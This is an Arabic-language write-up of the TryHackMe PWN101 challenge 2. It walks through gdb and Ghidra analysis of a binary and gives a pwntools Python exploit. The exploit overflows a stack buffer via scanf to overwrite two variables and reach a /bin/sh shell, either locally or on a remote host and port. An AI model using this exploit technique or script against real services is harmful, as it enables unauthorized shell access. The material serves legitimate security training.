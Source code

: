 # PWN101 (TryHackMe)
## Challenge #2
## write-up : 0xNuLLByte
<br>
 <!DOCTYPE html>
<html dir="rtl" lang="ar">
<head>
<meta charset="utf-8">


### كالعادة قبل البدء بعمليـة الـ (debugging) نشاهد سلوك البرنامج.
>
> ![](img/20220819005817.png)  
>
>let's fill the buffer with AAAA... :)
>
>![](img/20220819010021.png)
>
> ### - مافيه اي تغير حصل او اخطاء ضهرت لنا! .
___
## ننتقل الى عملية الـ Debugging :
البرامج + الإضافات المستخدمة :
- [gdb](http://www.gdbtutorial.com/tutorial/what-gdb)
- [gdb-peda](https://github.com/longld/peda)
- [Ghidra](https://ghidra-sre.org/InstallationGuide.html)

____

>- نعرض الدوال:
>
> `gdb ./pwn101.pwn101`
> 
> `gdb-peda$ info functions`
> 
> <img src="img/20220819010232.png" width="500" height="500">
>
> - نلاحظ وجود :
>```asm
>0x0000000000000720  system@plt              ; system() : دلاله على وجود داله 
>0x0000000000000750  __isoc99_scanf@plt      ; دلاله على وجود داله scanf();
>                                             ; في حال لم يتم استخدامها بالشكل الصحيح لانها لا تهتم بطول المدخل ولاتتحق بسعته buffer overflow و من الممكن ان تسبب 
> 
> 
>
>
>0x000000000000088a  setup                  ;
>0x00000000000008eb  banner                 ;
>0x00000000000008fe  main                   ;
>```
>
> - نعرض الدالة : main
>
>`gdb-peda$ disassemble main`
>
> ![](img/20220819012719.png)  
>
>```asm
>0x00000000000008fe <+0>:	push   rbp
>0x00000000000008ff <+1>:	mov    rbp,rsp
>0x0000000000000902 <+4>:	sub    rsp,0x70
>0x0000000000000906 <+8>:	mov    eax,0x0
>0x000000000000090b <+13>:	call   0x88a <setup>
>0x0000000000000910 <+18>:	mov    eax,0x0
>0x0000000000000915 <+23>:	call   0x8eb <banner>
>0x000000000000091a <+28>:	mov    DWORD PTR [rbp-0x4],0xbadf00d    ; rbp-0x4 =  0xbadf00d  ; 4 byte
>0x0000000000000921 <+35>:	mov    DWORD PTR [rbp-0x8],0xfee1dead   ; rbp-0x8 =  0xfee1dead ; 4 byte
>0x0000000000000928 <+42>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000092b <+45>:	mov    eax,DWORD PTR [rbp-0x4]
>0x000000000000092e <+48>:	mov    esi,eax
>0x0000000000000930 <+50>:	lea    rdi,[rip+0x212]        # 0xb49
>0x0000000000000937 <+57>:	mov    eax,0x0
>0x000000000000093c <+62>:	call   0x730 <printf@plt>
>0x0000000000000941 <+67>:	lea    rax,[rbp-0x70]                   ; byte حجز مساحه حجمها 112
>0x0000000000000945 <+71>:	mov    rsi,rax
>0x0000000000000948 <+74>:	lea    rdi,[rip+0x217]        # 0xb66
>0x000000000000094f <+81>:	mov    eax,0x0
>0x0000000000000954 <+86>:	call   0x750 <__isoc99_scanf@plt>       ; scanf() استدعاء لدالة 
>0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33     ; مقارنة; rbp-0x4 , 0xc0ff33
>0x0000000000000960 <+98>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى اقفز الى 
>0x0000000000000962 <+100>:	cmp    DWORD PTR [rbp-0x8],0xc0d3       ; مقارنة; rbp-0x4 , 0xc0d3
>0x0000000000000969 <+107>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى 
>
>                              ;  __في حال تساوى الشرط__  ;
>0x000000000000096b <+109>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000096e <+112>:	mov    eax,DWORD PTR [rbp-0x4]
>0x0000000000000971 <+115>:	mov    esi,eax
>0x0000000000000973 <+117>:	lea    rdi,[rip+0x1ef]        # 0xb69
>0x000000000000097a <+124>:	mov    eax,0x0
>0x000000000000097f <+129>:	call   0x730 <printf@plt>
>0x0000000000000984 <+134>:	lea    rdi,[rip+0x1f4]        # 0xb7f
>0x000000000000098b <+141>:	call   0x720 <system@plt>
>0x0000000000000990 <+146>:	jmp    0x9a8 <main+170>
>                              ;   __في حال لم يتساوى الشرط__ ;
>0x0000000000000992 <+148>:	lea    rdi,[rip+0x1ef]        # 0xb88
>0x0000000000000999 <+155>:	call   0x710 <puts@plt>
>0x000000000000099e <+160>:	mov    edi,0x539
>0x00000000000009a3 <+165>:	call   0x760 <exit@plt>
>0x00000000000009a8 <+170>:	leave  
>0x00000000000009a9 <+171>:	ret    
>```

## الاستنتاج :
>
>![](img/20220819014402.png) 
>
>```c
>void main(void)
>
>{
>  char buf[104];
>  int var_1;
>  int var_2;
>  
>  setup();
>  banner();
>  var_2 = 0xbadf00d;
>  var_1 = -0x11e2153;
>  
>  printf("I need %x to %x\nAm I right? ",0xbadf00d,0xfee1dead);
>  scanf("%s", buf);
>  if ((var_2 == 0xc0ff33) && (var_1 == 0xc0d3)) {
>    printf("Yes, I need %x to %x\n",0xc0ff33,0xc0d3);
>    system("/bin/sh");
>    return;
>  }
>  puts("I\'m feeling dead, coz you said I need bad food :(");
>                    /* WARNING: Subroutine does not return */
>  exit(1337);
>}
>```

## الاستغلال :
> 
> حاليا الهدف الكتابه فوق المتغيرين واعطائهم القيمه  var_2 == 0xc0ff33, var_1 == 0xc0d3 ليتحقق الشرط ونحصل على : `system("/bin/sh")`
> 
> رسمت رسمه توضح الفكره داخل المكدس
> 
> ![](img/20220819021945.png)  

## نكتب سكربت للاستغلال :
>```python
>from pwn import *
>
>#        68 byte           4 byte         4 byte
>PAYLOAD = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)
>
>def exploit_r(host_port: list):
>    HOST, PORT = host_port[0], host_port[1]
>    c = remote(HOST, int(PORT))
>    c.recv()
>    c.sendline(PAYLOAD)
>    c.interactive()
>
>def exploit_l(file: str):
>    p = process(file)
>    p.recv()
>    p.sendline(PAYLOAD)
>    p.interactive()
>
>def main():
>    import sys
>    try:
>        content: string = sys.argv[2]
>        get_flag: bool  = True if "-flag" in sys.argv else False
>
>        if sys.argv[1] == "-r": exploit_r(str(content).split(":"))
>        if sys.argv[1] == "-l": exploit_l(content)
>    except:
>        print("python exploit.py -l file.out        : for locally  exploit")
>        print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>
>if __name__ == "__main__":
>    main()
>
>```
>نجربه محلياََ :
>
> ![](img/20220819022456.png)  

## example area ( امثلـــة ):
